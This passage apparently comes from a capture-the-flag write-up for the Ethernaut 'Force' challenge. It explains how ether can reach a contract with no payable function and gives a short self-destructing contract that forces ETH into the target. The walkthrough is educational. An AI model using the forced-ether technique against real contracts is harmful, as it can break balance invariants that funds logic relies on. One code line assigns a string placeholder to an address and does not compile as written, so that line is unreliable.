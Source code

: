 However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant address(this).balance == 0 for any contract logic.

```
Sources
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

```

There are three ways for a contract to receive ether
Method 1 — via payable functions: the fallback function is to intentionally allow your contract to receive Ether from other contracts and external wallets. But if no such payable function exists, your contract still has 2 more indirect ways of receiving funds:
Method 2 — receiving mining reward: contract addresses can be designated as the recipients of mining block rewards.
Method 3 — from a destroyed contract: As discussed, selfdestruct lets you designate a backup address to receive the remaining ethers from the contract you are destroying.

So our solution for this challenge is #3 above - create a contract that will self-destroy and send its ETH to our Force contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract SelfDestructingContract {

  //this is for checking that we have some ETH - important to add "view" as otherwise it won't show the value in the output in etherscan, etc
    function collect() public view returns(uint) {
    return address(this).balance;
}

//this is for destroying the contract and sending ETH to our target
function selfDestroy() public {
    address payable addr = "our target address"; e.g. 0x24242424...
    selfdestruct(addr);
}

// this one is need to be able to receive ETH - if you don't add it, your contract won't be able to receive ETH by sending it to it
receive () external payable  { }

}

```
